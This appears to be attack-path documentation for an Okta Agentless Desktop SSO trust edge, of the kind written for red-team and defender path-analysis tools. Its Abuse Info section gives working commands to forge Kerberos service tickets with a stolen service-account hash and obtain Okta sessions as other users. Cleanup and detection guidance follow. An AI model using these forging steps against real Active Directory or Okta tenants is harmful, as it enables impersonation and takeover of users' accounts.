

## General Information

Hybrid traversable Okta_KerberosSSO edges represent Agentless Desktop SSO trust from an on-prem AD account that owns the Desktop SSO SPN to an AD-backed Okta application.



The source AD account is the service account configured for Agentless Desktop SSO. It owns an SPN such as `HTTP/<org>.kerberos.okta.com` or another Kerberos alias accepted by Okta. The destination Okta application is the AD-backed Okta directory integration that accepts Kerberos authentication for AD-linked users.

## Abuse Info

An attacker who controls the source AD account or its Kerberos keys can abuse the Desktop SSO trust to authenticate AD-backed users to Okta. With the service account key, the attacker can request or forge Kerberos service tickets for the Desktop SSO SPN and submit them to Okta's Kerberos endpoint. If Okta maps the Kerberos principal to an Okta user, the attacker can obtain an Okta session for that user.

This path is most useful when the target AD user is synced to a privileged Okta user, has access to sensitive Okta applications, or can reach admin privileges through `Okta_MemberOf` and admin-role edges. It does not bypass Okta policy that still requires MFA, device assurance, or other controls after Desktop SSO.

Using AD and a browser:

1. Compromise the source AD Desktop SSO service account, or extract its NTLM/AES Kerberos key from a host or directory compromise.
2. Identify the Desktop SSO SPN on the source account.
3. Identify the target AD user that maps to the destination Okta user.
4. Forge or obtain a Kerberos service ticket for the target AD user to the Desktop SSO SPN.
5. Present the ticket to Okta's Kerberos endpoint from a browser or tooling that supports SPNEGO.
6. If Okta accepts the ticket and maps the AD user, use the resulting Okta session as the destination Okta user.
7. Launch assigned applications or open the Admin Console according to the destination user's privileges.

Using AD commands, Kerberos tooling, and Okta API verification:

1. Set variables for the AD service account, SPN, target AD user, and destination Okta user.

    ```bash
    export AD_DOMAIN="contoso.com"
    export AD_DOMAIN_SID="S-1-5-21-1111111111-2222222222-3333333333"
    export DSSO_SERVICE_ACCOUNT="agentlessDsso"
    export DSSO_SPN="HTTP/contoso.kerberos.okta.com"
    export TARGET_AD_SAM="jane.doe"
    export DSSO_NTLM_HASH="REDACTED_NTLM_HASH"
    export OKTA_KERBEROS_URL="https://contoso.kerberos.okta.com"
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export DEST_OKTA_USER_ID="00u..."
    ```

2. Confirm the SPN registered to the Desktop SSO service account from a domain-joined Windows host.

    ```powershell
    setspn -L agentlessDsso
    setspn -Q HTTP/contoso.kerberos.okta.com
    ```

3. Forge a service ticket for the target AD user to the Desktop SSO SPN using the compromised service account key.

    ```bash
    impacket-ticketer \
      -nthash "$DSSO_NTLM_HASH" \
      -domain "$AD_DOMAIN" \
      -domain-sid "$AD_DOMAIN_SID" \
      -spn "$DSSO_SPN" \
      "$TARGET_AD_SAM"

    export KRB5CCNAME="$TARGET_AD_SAM.ccache"
    klist
    ```

    The cache should contain a service ticket for the Desktop SSO SPN.

4. Submit the Kerberos ticket to Okta's Kerberos endpoint. The exact browser flow depends on the workstation and browser SPNEGO configuration; the curl example verifies that a Negotiate flow can be attempted with the current Kerberos cache.

    ```bash
    curl -i -sS \
      --negotiate \
      -u : \
      -c /tmp/okta-kerberos-cookies.txt \
      -b /tmp/okta-kerberos-cookies.txt \
      "$OKTA_KERBEROS_URL"
    ```

    A successful browser flow redirects toward the Okta org with a session for the mapped user. If the response falls back to the normal sign-in page or errors, verify SPN, realm, ticket encryption type, clock skew, and Okta Desktop SSO policy.

5. Verify the mapped Okta user and the applications or admin paths available to that user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, email: .profile.email, credentialProvider: .credentials.provider}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/groups" \
      | jq -r '.[] | [.id, .type, .profile.name] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_KerberosSSO` means purging forged Kerberos tickets and browser state, rotating the exposed Desktop SSO service account password, revoking Okta sessions created through the trust, and verifying Desktop SSO still works for legitimate users.

Cleanup using Admin Console:

1. Revoke Okta sessions for the affected Okta users that authenticated through Desktop SSO.
2. In Okta, open **Security** > **Delegated Authentication** and review the **Active Directory** Agentless Desktop SSO configuration.
3. Rotate the Desktop SSO service account password in Active Directory.
4. Update the Agentless Desktop SSO service account password in Okta.
5. Verify the configured SPN and Kerberos alias still match the service account.
6. Test Desktop SSO from a legitimate domain-joined workstation.
7. Remove attacker tooling, browser profiles, cookie jars, and forged Kerberos caches.

Cleanup using API:

1. Purge Kerberos tickets from the host used for the operation.

    ```powershell
    klist purge
    ```

2. Rotate the Desktop SSO service account password in AD.

    ```powershell
    Import-Module ActiveDirectory

    $DssoServiceAccount = "agentlessDsso"
    $NewPassword = ConvertTo-SecureString "REDACTED_NEW_PASSWORD" -AsPlainText -Force

    Set-ADAccountPassword -Identity $DssoServiceAccount -Reset -NewPassword $NewPassword
    ```

3. Confirm the Desktop SSO SPN remains on the correct AD account and no duplicate SPN exists.

    ```powershell
    setspn -L agentlessDsso
    setspn -Q HTTP/contoso.kerberos.okta.com
    ```

4. Revoke Okta sessions and OAuth tokens for the affected Okta user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the destination Okta user and group state after session revocation.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$DEST_OKTA_USER_ID" \
      | jq '{id, status, login: .profile.login, lastLogin}'
    ```

6. Update the Desktop SSO password in Okta through the Admin Console. Okta does not expose a general public API for every Agentless Desktop SSO configuration field, so the Admin Console is the reliable cleanup path for the Okta-side password update.

## Opsec Considerations

Kerberos abuse can leave Windows security telemetry on domain controllers, especially event `4769` for service ticket requests to the Desktop SSO SPN. If a forged service ticket is submitted without a normal TGS request, defenders may instead notice missing expected domain-controller telemetry paired with Okta Desktop SSO activity.

Okta records sign-on activity through the Kerberos endpoint with events such as `user.authentication.auth_via_iwa`, `user.authentication.dsso_via_non_priority_source`, `policy.evaluate_sign_on`, and session starts. Unusual Desktop SSO from non-corporate networks, impossible travel, mismatched workstation context, or privileged users authenticating through Desktop SSO shortly after service account changes are strong signals.

## References

- [Okta Agentless Desktop SSO workflow](https://help.okta.com/en-us/content/topics/directory/ad-dsso-about-workflow.htm)
- [Okta Office 365 Silent Activation: Enable Kerberos authentication](https://help.okta.com/oie/en-us/content/topics/apps/apps_o365_silent_activation.htm)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Microsoft setspn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/setspn)
- [Microsoft klist](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/klist)
- [Microsoft Set-ADAccountPassword](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adaccountpassword)
- [Microsoft Windows event 4769](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4769)
- [Adam Chester: Okta for Red Teamers](https://blog.xpnsec.com/okta-for-redteamers/)
